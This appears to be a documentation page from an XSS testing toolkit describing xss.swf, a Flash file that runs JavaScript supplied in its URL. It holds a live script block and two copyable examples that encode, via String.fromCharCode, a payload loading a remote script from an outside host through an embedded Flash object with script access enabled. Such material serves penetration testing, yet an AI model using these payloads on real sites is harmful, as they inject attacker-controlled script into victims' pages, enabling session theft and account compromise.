 ## [XSS Testing](/xss/) / xss.swf

### Requirements

- You'll need to enable flash :D [chrome](https://support.digication.com/hc/en-us/articles/115003963468-Enabling-Flash-for-Google-Chrome-Windows-Macintosh-)

### Examples
**If data shows up here after the 1 second delay, that means the JS was executed.**
<pre id="xss-console-log"></pre>

<script>
(function () {
  let payload = `String.fromCharCode(${"var s=document.createElement('script'); s.src='https://defektive.github.io/xss/dist/xss.js'; document.body.appendChild(s)".split('').map(function (e){return e.charCodeAt(0)}).join(',')})`

  let t = new Date().getTime();

  let embed = document.createElement('embed');
  embed.setAttribute('height', '6');
  embed.setAttribute('width', '6');
  embed.setAttribute('allowscriptaccess', 'always');
  embed.setAttribute('src', 'https://defektive.github.io/xss/dist/xss.swf?t='+t + '&p='+ payload);

  document.body.appendChild(embed);
})();
</script>

---
#### Example used here

```html
<script>
(function () {
  let payload = `String.fromCharCode(${"var s=document.createElement('script'); s.src='https://defektive.github.io/xss/dist/xss.js'; document.body.appendChild(s)".split('').map(function (e){return e.charCodeAt(0)}).join(',')})`

  let t = new Date().getTime();

  let embed = document.createElement('embed');
  embed.setAttribute('height', '400');
  embed.setAttribute('width', '400');
  embed.setAttribute('allowscriptaccess', 'always');
  embed.setAttribute('src', 'https://defektive.github.io/xss/dist/xss.swf?t='+t + '&p='+ payload);

  document.body.appendChild(embed);
})();
</script>
```

#### Super Simple Example
```html

<embed height="400" width="400" allowscriptaccess="always" src="https://defektive.github.io/xss/dist/xss.swf?t=1548861488287&amp;p=String.fromCharCode(118,97,114,32,115,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,32,115,46,115,114,99,61,39,104,116,116,112,115,58,47,47,100,101,102,101,107,116,105,118,101,46,103,105,116,104,117,98,46,105,111,47,120,115,115,47,100,105,115,116,47,120,115,115,46,106,115,39,59,32,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,115,41)">


```
